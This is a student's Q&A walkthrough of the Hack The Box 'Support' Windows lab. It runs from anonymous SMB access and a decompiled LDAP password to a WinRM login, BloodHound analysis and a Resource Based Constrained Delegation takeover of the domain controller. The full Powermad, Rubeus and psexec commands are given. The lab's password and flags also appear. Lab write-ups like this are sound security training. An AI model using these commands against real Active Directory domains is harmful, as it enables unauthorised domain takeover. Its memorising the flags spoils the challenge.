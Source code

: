 
# About Support

Support is an Easy difficulty Windows machine that features an SMB share that allows anonymous authentication. After connecting to the share, an executable file is discovered that is used to query the machine&amp;amp;amp;amp;#039;s LDAP server for available users. Through reverse engineering, network analysis or emulation, the password that the binary uses to bind the LDAP server is identified and can be used to make further LDAP queries. A user called `support` is identified in the users list, and the `info` field is found to contain his password, thus allowing for a WinRM connection to the machine. Once on the machine, domain information can be gathered through `SharpHound`, and `BloodHound` reveals that the `Shared Support Accounts` group that the `support` user is a member of, has `GenericAll` privileges on the Domain Controller. A Resource Based Constrained Delegation attack is performed, and a shell as `NT Authority\System` is received.

___

### Q1: How many shares is Support showing on SMB?

#### A: 6

With nmap -sV -sC -Pn {ip}, i got this.

![](../../Img/Pasted%20image%2020250430141803.png)

We see that port 445 (smb) it's there. So we tried to connect to it. smbclient -L \\\\10.10.11.174\\

![](../../Img/Pasted%20image%2020250430142451.png)

___

### Q2: Which share is not a default share for a Windows domain controller?

#### A: support-tools

The support share doesn't seem like standar with smb.

![](../../Img/Pasted%20image%2020250430142412.png)

___

### Q3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?

#### A: UserInfo.exe.zip

All of the tools look familiar, except for UserInfo.

___

### Q4: What is the hardcoded password used for LDAP in the UserInfo.exe binary?

#### A: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

This is what was inside the .zip

![](../../Img/Pasted%20image%2020250430142830.png)

UserInfo is again here. But it can't be opened because it is a .exe. S we have to decompile it.
Got this out of first result google.

![](../../Img/Pasted%20image%2020250430143533.png)

The linux version took me here (https://github.com/icsharpcode/AvaloniaILSpy)
After intalling it and opening the file i searched around until i found something interesting.

It connects there.

![](../../Img/Pasted%20image%2020250430150602.png)

Looking a little bit more i found this.

![](../../Img/Pasted%20image%2020250430150800.png)

I thought that this was the password, but i have to decrypt it.
I had to google a lot, and look at the hint, but i finally got it.

___

### Q5: Which field in the LDAP data for the user named support stands out as potentially holding a password?

#### A: info

Having decoded the password, i connected to LDAP with Apache Directory. Navigating to the support related entries i found this.

![](../../Img/Pasted%20image%2020250430152540.png)

___

### Q6: What open port on Support allows a user in the Remote Management Users group to run PowerShell commands and get an interactive shell?

#### A: 5985

I had to run the nmap scan again, to check all ports (-p-)

![](../../Img/Pasted%20image%2020250430154940.png)

___

### Q7: Submit the flag located on the support user's desktop.

#### A: 4064b30c7a2919feb2e06a32f0810c28

Googling what that port is for, and then using evil-winrm i logged in and in /Desktop i found the flag.

![](../../Img/Pasted%20image%2020250430153159.png)

___

### Q8: Bloodhound data will show that the support user has what privilege on the DC.SUPPORT.HTB object?

#### A: GenericAll

I had to install Blodhound, the db (neo4j), get the Sharphound.exe to upload to the machine with the evil-winrm connection.
I ran the .exe and after that downloaded the .zip with the results.
And that i uploaded into Blood hound.

![](../../Img/Pasted%20image%2020250430155226.png)

![](../../Img/Pasted%20image%2020250430155344.png)

![](../../Img/Pasted%20image%2020250430155500.png)

Finally.

![](../../Img/Pasted%20image%2020250430155748.png)

___

### Q9: A common attack with generic all on a computer object is to add a fake computer to the domain. What attribute on the domain sets how many computer accounts a user is allowed to create in the domain?

#### A: ms-ds-machineaccountquota

Google it.

![](../../Img/Pasted%20image%2020250430160121.png)

___

### Q10: Following the steps for the Computer Takeover attack, eventually I get a ticket for the administrator, which Rubeus says should give administrator access in that session, but it doesn't work. What is the name of the script from Impacket that can convert that ticket to ccache format?

#### A: ticketConverter.py

Google again.

![](../../Img/Pasted%20image%2020250430162918.png)

___

### Q11: What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?

#### A: KRB5CCNAME

I tried in the documentation (https://ccache.dev/documentation.html), but nothing turned up.
This page helped me (https://www.tarlogic.com/blog/how-to-attack-kerberos/).

![](../../Img/Pasted%20image%2020250430163654.png)

___

### Q12: Submit the flag located on the administrator's desktop.

#### A: f72a60bd6c0e42da0badd8912b664933

So, i uploaded to the machine Powermad and rubeus.
With Powermad i created the new machine New-MachineAccount -MachineAccount compu -Password $(ConvertTo-SecureString 'contra123' -AsPlainText -Force)

![](../../Img/Pasted%20image%2020250430162245.png)

As for the attack we use (Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount compu). to set the attribute.
I use Rubeus to hash the password for the new machine (\Rubeus.exe hash /password:contra123 /user:compu$ /domain:support.htb).

![](../../Img/Pasted%20image%2020250430162721.png)

With the rubeus command i got the ticket. (./rubeus.exe s4u /user:compu$ /rc4:E71B1ABD104A45393C428D263A82B1F2 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt)

![](../../Img/Pasted%20image%2020250430170015.png)

With ticketConverter.py i make the ticket.
And for the shell i use psexec.py. After a lot of trying because i have to use "python3" to run the script this is the command that i use (KRB5CCNAME=ticket.ccache python3 psexec.py support.htb/administrator@dc.support.htb -k -no-pass)

![](../../Img/Pasted%20image%2020250430171255.png)

![](../../Img/Pasted%20image%2020250430171550.png)

Tags: [BloodHound](../../Index/BloodHound.md) [Evil-Winrm](../../Index/Evil-Winrm.md) [LDAP](../../Index/LDAP.md) [Nmap](../../Index/Nmap.md) [Reverse Engineering](../../Index/Reverse%20Engineering.md) [Rubeus](../../Index/Rubeus.md) [SharpHound](../../Index/SharpHound.md) [SMB](../../Index/SMB.md)
